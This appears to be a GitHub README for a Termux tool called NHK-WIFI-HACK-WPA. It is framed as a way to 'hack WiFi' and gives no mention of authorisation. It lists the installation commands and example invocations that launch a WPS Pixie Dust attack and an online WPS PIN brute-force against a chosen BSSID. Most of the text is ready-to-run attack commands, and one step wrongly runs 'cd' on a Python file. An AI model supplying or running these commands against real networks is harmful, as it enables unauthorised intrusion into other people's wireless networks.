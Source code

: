 ## Wifi_Hack
### Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

### Installation :

```bash
$ apt update && apt upgrade
$ pkg install -y root-repo
$ pkg install -y git tsu python wpa-supplicant pixiewps iw
$ git clone https://github.com/Naimulbari444/NHK-WIFI-HACK-WPA
$ cd NHK_WIFI_HACK.py
$ chmod +x NHK_WIFI_HACK.py
$ sudo python NHK_WIFI_HACK.py --help
```

#### Example : `sudo python NHK_WIFI_HACK.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python NHK_WIFI_HACK.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python NHK_WIFI_HACK.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python NHK_WIFI_HACK.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
